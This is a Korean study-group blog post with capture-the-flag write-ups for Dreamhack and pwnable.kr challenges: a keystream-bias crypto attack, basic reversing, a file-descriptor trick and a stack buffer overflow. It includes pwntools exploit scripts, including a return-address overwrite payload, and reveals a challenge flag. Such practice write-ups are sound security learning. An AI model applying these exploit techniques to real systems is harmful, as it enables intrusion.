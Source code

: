 ```yaml
---
title: "[CAUTION] 스터디 - 1"
categories:
  - study
tags:
  - dreamhack
  - pwnable
toc: true
toc_sticky: true
toc_label: "스터디 - 1"
toc_icon: "bookmark"
author_profile: true
header:
  teaser: /assets/images/caution.jpg
---
```


💡 Caution 스터디 1회차(5월 첫째 주)
{: .notice--warning}

# 암호학 - 1

**[CS448](https://dreamhack.io/wargame/challenges/452/)**
    
```python
def encrypt(s, k):
    res = ""
    if k <= len(s):
        _print("[!] key shold be larger then len(pt) for safty!!")
        return ""
    for i, c in enumerate(s):
        enc = (get_random_u8() + key * i) % 0xff
        enc = ord(c) ^ enc
        res += hex(enc)[2:].rjust(2, "0")
    return res
```

위의 코드와 같은 방식으로 암호화를 수행한다.

취약점이 발생하는 부분은 %0xff 이다.

```key stream : (get_random_u8() + key * i) % 0xff``` 부분을 잘 생각해 보면 그 결과로 0~254 까지의 결과가 나오는 것을 알 수 있다.

이것이 왜 문제인지 생각해보자. 임의의 평문 'X'에 대해서 암호화를 통해서 나올 수 있는 모든 결과는 8bit 결과이므로 00000000 ~ 11111111 로 총 256개이다.

근데 현재 키 스트림은 0~254까지의 범위를 가지므로 255개의 키 스트림이 있다.

즉, 임의의 문자 'X'에 대해서 계속 암호화를 수행하면 'X' xor '11111111' 의 결과가 누락되게 된다.

그러면 우리는 하나의 글자에 대해서 계속 암호화를 수행하면서 어떠한 결과가 나왔는지를 전부 기록한 뒤에, 0-255중에 한 번도 안나온 결과를 찾으면 된다. 그러면 그 숫자가 바로 
'X' xor '11111111'이 되는 것이다.

이를 코드로 구현하면 다음과 같다. 모든 flag 하나하나에 대해서 bruteforce를 하다보니, 결과가 나오는데 시간이 꽤 걸린다. 

```python
from pwn import *


p = remote('host1.dreamhack.games',10819)

key = 255

p.sendlineafter('>> ','3')
p.sendlineafter('key >> ','255')
p.recvuntil('result : ')

enc_flag = p.recvline()
flag_len = len(enc_flag) // 2
flag_set = [list(range(256)) for _ in range(flag_len)]
flag = [0 for x in range(flag_len)]

while True:
    p.sendlineafter('>> ','3')
    p.sendlineafter('key >> ','255')
    p.recvuntil('result : ')
    
    enc_flag = bytes.fromhex(p.recvline()[:-1].decode())

    for i in range(flag_len):
        # flag_set에서 찾는 글자 하나씩 삭제
        if flag_set[i].count(enc_flag[i]) == 1:
            flag_set[i].remove(enc_flag[i])
        
        # 한개 남은 결과에 255 xor 하면 원래 글자
        if len(flag_set[i]) == 1:
            flag[i] = chr(flag_set[i][-1] ^ key )

    print([len(x) for x in flag_set])    
    if 0 not in flag:
        break
            
print(''.join(flag))

```


![image](https://user-images.githubusercontent.com/33647663/167166094-8731c708-f5ae-4399-b1f7-a965f2af6329.png)


# 리버싱 - 1
**[rev-basic-0](https://dreamhack.io/wargame/challenges/14/)**

리버싱 기초문제

IDA로 열면 바로 strcmp가 보임

![image](https://user-images.githubusercontent.com/33647663/167167482-413fd717-1ab8-453a-84bd-3545fbd6307d.png)


# 리버싱 - 2
**[rev-basic-2](https://dreamhack.io/wargame/challenges/16/)**

![image](https://user-images.githubusercontent.com/33647663/167168558-de394732-9760-4364-b18b-12707b202817.png)


각각의 input(a1)에 대해서, aC[] 배열과 비교를 하고 있다.
총 길이는 18글자 이며, aC배열은 다음과 같다.

![image](https://user-images.githubusercontent.com/33647663/167168899-099070a1-4fb3-4078-bc26-6c82a93ac5ae.png)

데이터 타입을 array로 바꾸면 더 보기 쉽다.

![image](https://user-images.githubusercontent.com/33647663/167169712-de730a70-d4b6-44e2-8287-d016aecbc849.png)

마지막 null문자를 제외하면 총 17글자로 
flag는 'Comp4re_the_arr4y'이다.


# 시스템 - 1

**[pwnable.kr](https://pwnable.kr/play.php) [fd]**

문제의 코드는 다음과 같다.

```c
char buf[32];
int main(int argc, char* argv[], char* envp[]){
	if(argc<2){
		printf("pass argv[1] a number\n");
		return 0;
	}
	int fd = atoi( argv[1] ) - 0x1234;
	int len = 0;
	len = read(fd, buf, 32);
	if(!strcmp("LETMEWIN\n", buf)){
		printf("good job :)\n");
		system("/bin/cat flag");
		exit(0);
	}
	printf("learn about Linux file IO\n");
	return 0;

}
```

argv[1] - 0x1234 값을 fd로 하여 해당 fd로 데이터를 읽어온다.

stdin 이 fd 0 이므로 argv[1]로 0x1234인 4660 데이터를 넘겨준다.

넘겨주면 사용자의 입력값을 기다리게 되고, 이때 비교 문자열인 'LETMEIN'을 입력해 주면 flag를 획득할 수 있다.

![image](https://user-images.githubusercontent.com/33647663/167191157-e2c61f67-9c03-48e7-baca-1b795ae87d48.png)



# 시스템 - 2

**[Return Address Overwrite](https://dreamhack.io/wargame/challenges/351/)**
메인함수를 시작할때 스택 상태는 아래와 같다


![image](https://user-images.githubusercontent.com/33647663/167182991-88bc7d37-2f97-4069-aae8-dffe211841a0.png)

그림으로 표현해보면 스택 상태는 다음과 같다

![image](https://user-images.githubusercontent.com/33647663/167183968-75242f51-75c8-469a-b592-59392ff0ed25.png)

buf에 입력 받을때 bof 취약점이 있으니, 56byte는 더미로 채워주고 8 byte를 get_shell() 함수의 주소를 입력하여 익스플로잇 한다.

get_shell()의 주소는 다음과 같다.

![image](https://user-images.githubusercontent.com/33647663/167184372-2064a6d2-7f00-4bf1-b8d0-1ee0331d7bcf.png)

쉘 코드는 다음과 같이 작성해 준다.

```python
from pwn import *

p = remote('host1.dreamhack.games',21598)
context.log_level= 0

# get_shell() : 0x00000000004006aa
p.recvuntil(b'Input: ')
payload = 'A' * 0x30
payload += 'B' * 8
payload += '\xaa\x06\x40\x00\x00\x00\x00\x00'

p.sendline(payload)
p.interactive()
```


실행하면 다음과 같이 플래그를 획득할 수 있다.

![image](https://user-images.githubusercontent.com/33647663/167182774-e216d7eb-0a9c-4465-b75f-5b9cc969751b.png)